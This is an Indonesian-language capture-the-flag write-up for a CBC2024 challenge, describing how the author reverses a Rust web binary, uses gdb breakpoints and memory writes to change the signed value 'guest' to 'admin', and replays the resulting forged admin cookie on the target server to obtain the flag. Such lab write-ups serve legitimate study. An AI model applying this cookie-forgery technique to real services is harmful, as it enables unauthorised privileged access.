<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Bisa dilihat bahwa nilai yang dibandingkan adalah guest dan admin. Jadi bisa dibilang bahwa kita harus login sebagai admin. Selanjutnya cek fungsi login

<figure><figcaption></figcaption></figure>

Pada fungsi \_ZN19rocket\_ship\_goes\_by5login9into\_info22monomorphized\_function28\_$u7b$$u7b$closure$u7d$$u7d$17h5f53e279d7dab19bE dapat diketahui bahwa login dihardcode, jadi hanya bisa untuk guest:guest saja. Lanjut ke proses setelahnya yaitu jika user melakukan login dengan credential guest:guest

<figure><figcaption></figcaption></figure>

Terdapat fungsi add\_private yang merupakan proses signing dan menghasil signature untuk user guest yang telah login. Nilai yang disign pun juga hardcoded yaitu guest, disini saya mendapat ide untuk mengubah nilai guest menjadi admin lalu melakukan continue pada program. Jadi nanti response dari endpoint login akan menghasilkan signature cookie untuk admin. Breakpoint pada address 0x24921A

```
pie b 0x24921A
c
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Selanjutnya tinggal ubah nilai guest menjadi admin

```
set {char}(0x555555bbfe98) = 97
set {char}(0x555555bbfe98+1) = 100
set {char}(0x555555bbfe98+2) = 109
set {char}(0x555555bbfe98+3) = 105
set {char}(0x555555bbfe98+4) = 110
```

<figure><figcaption></figcaption></figure>

Terakhir tinggal continue

<figure><figcaption></figcaption></figure>

Pada response akan terdapat cookie jadi gunakan cookie tersebut pada server target

<figure><figcaption></figcaption></figure>

Flag: CBC2024{9fe81363ba8fe3ef1731cc51a4bf734f}
